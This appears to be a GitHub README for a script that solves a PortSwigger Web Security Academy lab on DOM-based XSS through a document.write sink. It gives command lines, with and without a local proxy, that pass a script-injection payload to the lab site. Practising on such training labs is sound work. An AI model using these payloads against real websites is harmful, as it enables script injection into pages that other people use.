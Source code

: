# How to run script.py

### DOM XSS in document.write sink using source location.search

No proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c 'test"><script>alert("XSS")</script>'`

Proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c 'test"><script>alert("XSS")</script>' -p 127.0.0.1:8080`
